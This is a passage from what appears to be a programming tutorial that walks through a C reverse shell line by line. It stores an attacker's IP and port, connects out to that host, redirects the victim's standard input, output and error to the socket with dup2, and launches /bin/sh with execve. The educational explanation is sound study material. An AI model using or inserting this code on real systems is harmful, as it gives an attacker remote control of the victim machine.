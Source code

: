 
2. Store Attacker's details.

        //Details about server socket
        struct sockaddr_in serversockaddr;
        serversockaddr.sin_family = AF_INET;
        serversockaddr.sin_port = htons(port);
        serversockaddr.sin_addr.s_addr = inet_addr(ServerIPAddress);
        memset(serversockaddr.sin_zero, '\0', sizeof(serversockaddr.sin_zero));

    * An instance of **sockaddr_in** structure is used to store Attacker's details.   
    * This structure has 4 members. 
    * **sin_family**: Address family - AF_INET
    * **sin_port**: Port Number the server socket is bound to.(In Network Order)
    * **sin_addr**: IPv4 Address in numerical form(not in dot notation).
    * **sin_zero**: Just padding of zeroes. 

3. Connect to Attacker. 

        // Connect system call
        connect(sock_fd, (struct sockaddr *)&serversockaddr, sizeof(serversockaddr));

    * The connect function connects socket with File Descriptor = **sock_fd** to a socket with Details in **serversockaddr** (An instance of **sockaddr_in** structure)

4. Redirection of victim's stdin, stdout and stderr. 

        //Redirect stdin, stdout and stderr to that socket
        dup2(sock_fd, 0);
        dup2(sock_fd, 1);
        dup2(sock_fd, 2);
    
    * The following is **dup2**'s manual page. 

            dup2()
            The dup2() system call performs the same task as dup(), but instead of using the low‐
            est-numbered  unused  file  descriptor,  it  uses  the descriptor number specified in
            newfd.  If the descriptor newfd was previously open, it  is  silently  closed  before
            being reused.

    * Note that **0** is the File Descriptor of Standard Input, **1** is the File Descriptor of Standard Output and **2** is the File Descriptor of Standard Error. 

    * As discussed in the previous section, redirection is done using **dup2** System call. **0**, **1** and **2** are made duplicate file descriptors of **sock_fd**. So, they all are File Descriptors of the socket we created in Step-1. 

    * As **0** is identified as Standard Input and **0** is the File Descriptor of the socket, the socket is Standard Input. In the same way, the socket is the Standard Output and Standard Error. 

5. Execute a shell.

        //Execve system call to run a shell. 
        char *arg[2];
        arg[0] = "/bin/sh";
        arg[1] = NULL;

        execve(arg[0], arg, 0x00);
    